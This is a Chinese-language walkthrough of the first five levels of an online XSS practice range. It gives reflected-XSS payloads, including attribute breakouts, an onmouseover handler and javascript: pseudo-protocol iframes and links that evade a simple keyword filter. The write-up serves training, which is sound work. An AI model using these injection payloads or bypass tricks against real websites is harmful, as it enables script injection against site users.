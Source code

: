 # xss平台练习

> 来源为一个在线靶场：
>
> http://test.ctf8.com/level1.php?name=test

## level1

<script>alert('xss')</script>

## level2

过滤php函数

(PHP 4, PHP 5, PHP 7)

htmlspecialchars — 将特殊字符转换为 HTML 实体

等于<不能用，这时候一种方法是黑名单绕过，就是不使用被过滤的符号，使用js的事件：

![image-20200915193548678](未命名.assets/image-20200915193548678.png)

![image-20200915194446612](未命名.assets/image-20200915194446612.png)

Payload:

"><script>alert(1)</script>

这样value=" "，不会检查我们的弹窗代码

![image-20200915201010853](未命名.assets/image-20200915201010853.png)

## level3

![image-20200915201317764](未命名.assets/image-20200915201317764.png)

Payload: 

' onmouseover=alert(1)//

单引号用来闭合，

### 定义和用法

onmouseover 事件会在鼠标指针移动到指定的对象上时发生。这里指定的就是搜索框了。

## less4

跟3一样，不过要用""进行闭合。

## less5

~~~javascript
$str = strtolower($_GET["keyword"]); //将字符串转化为小写，所以大小写不能绕过
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
~~~

对输入进行了过滤。

但是没有对<>进行过滤，所以我们可以使用伪协议来进行构造

payload:

~~~
"><iframe src=javascript:alert(1)>
"> <a href="javascript:alert(1)">bmjoker</a>
"> <a href="javascript:%61lert(1)">bmjoker</a> //
~~~

iframe 元素会创建包含另外一个文档的内联框架（即行内框架）。

其中第二第三个payload是定义了一个链接，在访问时触发js代码。

